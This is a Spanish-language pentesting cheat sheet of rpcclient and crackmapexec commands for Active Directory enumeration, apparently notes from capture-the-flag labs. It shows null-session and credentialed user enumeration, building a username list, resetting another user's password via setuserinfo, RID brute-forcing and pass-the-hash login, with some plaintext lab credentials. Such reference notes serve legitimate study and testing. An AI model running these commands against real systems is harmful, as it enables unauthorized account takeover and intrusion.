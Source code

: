 # RPCCLIENT
### LISTAR USUARIOS VALIDOS A NIVEL DE SISTEMA
```shell
❯ rpcclient -U 'drwilliams' 10.10.11.241 -c 'enumdomusers' #CON CREDENCIALES
rpcclient -U nagoya-industries/svc_helpdesk 192.168.205.21 #CONECTARSE

❯ rpcclient -U '' 10.10.11.241 -N -c 'enumdomusers' #SIN CREDENCIALES
```


### INFORMACIÓN DE UN USUARIO
```shell
❯ rpcclient -U 'drwilliams' 10.10.11.241 -c 'queryuser USUARIO'
```


### ENUMERACIÓN DE LOS GRUPOS DEL SISTEMA
```shell
❯ rpcclient -U '' 10.10.10.172 -N -c 'enumdomgroups'
```


### INFORMACIÓN DE TODOS LOS USUARIOS
```shell
❯ rpcclient -U 'drwilliams' 10.10.11.241 -c 'querydispinfo'


❯ rpcclient -U '' -N 10.10.10.161 -c 'querydispinfo'
```

### CREAR DICCIONARIO CON TODOS LOS USUARIOS VALIDOS A NIVEL DE SISTEMA
```shell
#CON UN NULL SESSION
❯ rpcclient -U 'drwilliams' 10.10.10.172 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users.txt

#CON CREDENCIALES
❯ rpcclient -U 'hope.sharp%IsolationIsKey?' 10.10.11.129 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users.txt
```


### CAMBIAR CONTRASEÑA POR RPCCLIENT (CONECTADO)
```shell
rpcclient -U nagoya-industries/svc_helpdesk 192.168.205.21 #CONECTARSE
setuserinfo christopher.lewis 23 '¡Administrador!23'
```

### ENUMERAR TODOS LOS USUARIOS CON RID-BRUTE
```shell
❯ crackmapexec smb 10.10.11.250 -u 'technician' -p '97NTtl*4QP96Bv' --rid-brute
```


### CONECTARSE CON HASH
```shell
rpcclient -U 'henry.vinson' --pw-nt-hash apt
```